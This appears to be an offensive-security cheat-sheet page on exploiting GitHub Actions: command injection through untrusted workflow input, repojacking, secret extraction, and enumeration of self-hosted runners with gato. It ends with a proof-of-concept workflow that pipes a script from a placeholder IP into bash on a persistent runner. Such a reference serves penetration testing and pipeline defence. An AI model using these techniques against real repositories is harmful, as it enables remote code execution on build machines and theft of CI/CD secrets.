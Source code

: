 # CI/CD - GitHub Actions

GitHub Actions is GitHub’s built-in CI/CD automation tool that lets you build, test, and deploy your code right from your GitHub repository. It runs workflows triggered by events like code pushes, pull requests, or manual triggers.

## Default Action

The configuration files for GH actions are located in the directory `.github/workflows/`

You can tell if the action builds pull requests based on its trigger (`on`) instructions:

```yaml
on:
  push:
    branches:
      - master
  pull_request:
```

In order to run a command in an action that builds pull requests, add a `run` instruction to it.

```yaml
jobs:
  print_issue_title:
    runs-on: ubuntu-latest
    name: Command execution
    steps:
    - run: echo whoami"
```

`workflow_dispatch` is a special trigger in GitHub Actions that allows you to manually trigger a workflow from the GitHub UI or via the GitHub API.

```yml
name: example
on:
  workflow_dispatch:
  push:
    branches: [ main ]
  pull_request:
    branches: [ main ]

jobs:
  build:
    runs-on: windows-2019

    steps:
      - name: Execute
        run: |
          whoami
```

## Misconfigured Actions

Analyze repositories to find misconfigured Github actions.

* [synacktiv/octoscan](https://github.com/synacktiv/octoscan) - Octoscan is a static vulnerability scanner for GitHub action workflows.
* [boostsecurityio/poutine](https://github.com/boostsecurityio/poutine) - Poutine is a security scanner that detects misconfigurations and vulnerabilities in the build pipelines of a repository. It supports parsing CI workflows from GitHub Actions and Gitlab CI/CD.

    ```ps1
    # Using Docker
    $ docker run ghcr.io/boostsecurityio/poutine:latest

    # Analyze a local repository
    $ poutine analyze_local .

    # Analyze a remote GitHub repository
    $ poutine -token "$GH_TOKEN" analyze_repo messypoutine/gravy-overflow

    # Analyze all repositories in a GitHub organization
    $ poutine -token "$GH_TOKEN" analyze_org messypoutine

    # Analyze all projects in a self-hosted Gitlab instance
    $ poutine -token "$GL_TOKEN" -scm gitlab -scm-base-uri https://example.com org/repo
    ```

![GitHub-Actions-Attack-Diagram](https://raw.githubusercontent.com/jstawinski/GitHub-Actions-Attack-Diagram/refs/heads/main/GitHub%20Actions%20Attack%20Diagram.svg)

### Repository Hijacking

When the action is using a non-existing action, Github username or organization.

```yaml
- uses: non-existing-org/checkout-action
```

> :warning: To protect against repojacking, GitHub employs a security mechanism that disallows the registration of previous repository names with 100 clones in the week before renaming or deleting the owner's account. [The GitHub Actions Worm: Compromising GitHub Repositories Through the Actions Dependency Tree - Asi Greenholts](https://www.paloaltonetworks.com/blog/prisma-cloud/github-actions-worm-dependencies/)

### Untrusted Input Evaluation

An action may be vulnerable to command injection if it dynamically evaluates untrusted input as part of its `run` instruction:

```yaml
jobs:
  print_issue_title:
    runs-on: ubuntu-latest
    name: Print issue title
    steps:
    - run: echo "${{github.event.issue.title}}"
```

### Extract Sensitive Variables and Secrets

**Variables** are used for non-sensitive configuration data. They are accessible only by GitHub Actions in the context of this environment by using the variable context.

**Secrets** are encrypted environment variables. They are accessible only by GitHub Actions in the context of this environment by using the secret context.

```yml
jobs:
  build:
    runs-on: ubuntu-latest
    environment: env
    steps:
      - name: Access Secrets
        env:
            SUPER_SECRET_TOKEN: ${{ secrets.SUPER_SECRET_TOKEN }}
        run: |
            echo SUPER_SECRET_TOKEN=$SUPER_SECRET_TOKEN >> local.properties
```

* [synacktiv/gh-hijack-runner](https://github.com/synacktiv/gh-hijack-runner) - A python script to create a fake GitHub runner and hijack pipeline jobs to leak CI/CD secrets.

## Self-Hosted Runners

A self-hosted runner for GitHub Actions is a machine that you manage and maintain to run workflows from your GitHub repository. Unlike GitHub's own hosted runners, which operate on GitHub's infrastructure, self-hosted runners run on your own infrastructure. This allows for more control over the hardware, operating system, software, and security of the runner environment.

Scan a public GitHub Organization for Self-Hosted Runners

* [AdnaneKhan/Gato-X](https://github.com/AdnaneKhan/Gato-X) - Fork of Gato - Gato (Github Attack TOolkit) - Extreme Edition
* [praetorian-inc/gato](https://github.com/praetorian-inc/gato) - GitHub Actions Pipeline Enumeration and Attack Tool

    ```ps1
    gato -s enumerate -t targetOrg -oJ target_org_gato.json
    ```

There are 2 types of self-hosted runners: non-ephemeral and ephemeral.

* **Ephemeral** runners are short-lived, created to handle a single or limited number of jobs before being terminated. They provide isolation, scalability, and enhanced security since each job runs in a clean environment.
* **Non-ephemeral** runners are long-lived, designed to handle multiple jobs over time. They offer consistency, customization, and can be cost-effective in stable environments where the overhead of provisioning new runners is unnecessary.

Identify the type of self-hosted runner with `gato`:

```ps1
gato e --repository vercel/next.js
[+] The authenticated user is: swisskyrepo
[+] The GitHub Classic PAT has the following scopes: repo, workflow
    - Enumerating: vercel/next.js!
[+] The repository contains a workflow: build_and_deploy.yml that might execute on self-hosted runners!
[+] The repository vercel/next.js contains a previous workflow run that executed on a self-hosted runner!
    - The runner name was: nextjs-hel1-22 and the machine name was nextjs-hel1-22 and the runner type was repository in the Default group with the following labels: self-hosted, linux, x64, metal
[!] The repository contains a non-ephemeral self-hosted runner!
[-] The user can only pull from the repository, but forking is allowed! Only a fork pull-request based attack would be possible.
```

Example of workflow to run on a non-ephemeral runner:

```yml
name: POC
on:
  pull_request:
  
jobs:
  security:
    runs-on: non-ephemeral-runner-name

    steps:
      - name: cmd-exec
        run: |
          curl -k https://ip.ip.ip.ip/exec.sh | bash
```

## References

* [GITHUB ACTIONS EXPLOITATION: SELF HOSTED RUNNERS - Hugo Vincent - 17/07/2024](https://www.synacktiv.com/publications/github-actions-exploitation-self-hosted-runners)
* [GITHUB ACTIONS EXPLOITATION: REPO JACKING AND ENVIRONMENT MANIPULATION - Hugo Vincent - 10/07/2024](https://www.synacktiv.com/publications/github-actions-exploitation-repo-jacking-and-environment-manipulation)
* [GITHUB ACTIONS EXPLOITATION: DEPENDABOT - Hugo Vincent - 06/08/2024](https://www.synacktiv.com/publications/github-actions-exploitation-dependabot)
